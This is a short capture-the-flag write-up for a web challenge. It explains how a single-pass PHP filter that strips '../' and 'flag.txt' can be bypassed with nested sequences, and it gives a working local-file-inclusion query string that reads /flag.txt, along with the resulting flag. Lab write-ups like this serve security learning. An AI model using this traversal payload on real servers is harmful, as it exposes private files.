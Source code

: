 # elefay
### Description: Flag file in /flag.txt

We are given a link to go to a website.

Assuming from the challenge title, this is probably going to be another LFI 

Here is the initial display of the website:

![alt text](image.png)

What we can gather is:

1. ```preg_replace('/\.\.\//', '', $_GET['file'])```  removes ../ sequences

2. ```preg_replace('/flag\.txt/i', '', ...)``` removes flag.txt (case insensitive)

The regex ```/\.\.\/``` looks for literal ../ patterns.

```....//``` doesn't match because it's .. followed by .// (not ../).

The regex ```/flag\.txt/i``` finds and removes flag.txt, and we could exploit this by making a link to /flag.txt look like this:

```flflag.txtag.txt```, which contains flag.txt in the middle, and when flag.txt is removed, fl + ag.txt = ```flag.txt```


Now based on that, we can try appending this to the website link:

```
?file=....//....//....//flflag.txtag.txt
```


And the flag is printed:

![alt text](image-1.png)

Flag: ```HCS{k4mu_k0k_j4g0_b4ng3t_s1h_b4n9_m44f_ya_soalny4_t3rlalu_g4mp4ng_bu4t_k4mu_:3_456ac92e-3d77-41c1-a042-936641a2cfba}```